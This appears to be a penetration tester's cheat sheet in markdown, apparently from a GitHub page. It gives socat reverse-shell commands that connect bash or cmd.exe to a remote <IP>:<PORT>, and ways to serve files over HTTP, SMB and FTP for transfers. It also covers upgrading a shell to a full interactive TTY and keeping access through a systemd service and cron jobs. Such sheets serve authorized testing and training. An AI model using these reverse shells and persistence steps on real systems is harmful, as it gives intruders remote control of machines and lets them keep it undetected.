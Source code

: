 ### SoCAT
```
socat file:`tty`,raw,echo=0 tcp-listen:<PORT>
```
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```
```
socat.exe exec:'cmd.exe',pipes TCP4:<IP>:<PORT>
```
### Serving Files
- Python3
```
python3 -m http.server <PORT> --directory <DIRECTORY>
```
- SMB
```
impacket-smbserver <SHARE> <DIRECTORY> -port <PORT> -username <USERNAME> -password <PASSWORD> -smb2support
```
- FTP
```
python3 -m pyftpdlib -d <DIRECTORY> -p <PORT> -u <USERNAME> -P <PASSWORD>
#Add -w for write permission
```
### Beautify Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
script -qc /bin/bash /dev/null ^Z
stty -a
stty raw -echo
fg
fg (YES YOU TYPE IT TWICE)
export term=xterm
stty rows <ROWS> columns <COLUMNS>
```
### Persistence
- Create a new service
```
vim /etc/systemd/system/<SERVICE>.service
```
- Template for service
```
[Unit]
Description=<DESCRIPTION>

[Service]
Type=simple
Restart=always
ExecStart=<PATH_TO_EXECUTABLE>

[Install]
WantedBy=multi-user.target
```
- Loading the service
```
systemctl daemon reload
```
```
systemctl enable <SERVICE>
```
- Creating a new CronJob
```
crontab -e
```
- CronTab Format
```
[minute] [hour] [day of month] [month] [day of week] [command]
```